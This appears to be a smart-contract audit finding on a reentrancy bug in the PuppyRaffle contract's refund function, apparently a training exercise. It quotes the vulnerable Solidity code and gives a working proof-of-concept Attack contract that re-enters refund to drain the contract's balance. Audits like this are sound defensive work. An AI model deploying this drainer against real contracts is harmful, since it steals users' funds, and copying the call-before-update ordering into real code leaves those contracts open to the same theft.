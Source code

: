 # Findings
# High

### [H-1] The reset of the `PuppyRaffle::players[playerIndex]` array happens after the external call `PuppyRaffle::sendValue()` which leads to a reentancy situation.

**Description:** In the function `PuppyRaffle::refund()` the array which stores the active users (i.e. those who have not yet refunded their `PuppyRaffle::entranceFee`) is updated after the external call `PuppyRaffle::sendValue()`. In that case a user might implement a malicious contract that would reenter the `PuppyRaffle::refund()` after receiving the entrance fee and clear out the contract's balance.

Contract Code: 
```soliditiy
    function refund(uint256 playerIndex) public {
        address playerAddress = players[playerIndex];
        require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
        require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

@>      payable(msg.sender).sendValue(entranceFee);

@>      players[playerIndex] = address(0);
        emit RaffleRefunded(playerAddress);
    }

```

**Impact:** That particulat reentrancy attack could result in a complete loss of the funds stored in the `PuppyRaffle` contract. 

**Proof of Concept:** 
1. Create a Contract that will exploit the vulnerability:

```solidity
contract Attack {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle){
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    } 

    function attack() external payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    receive() external payable {
        if(address(puppyRaffle).balance >= entranceFee){
            puppyRaffle.refund(attackerIndex);
        }
    }
}
```
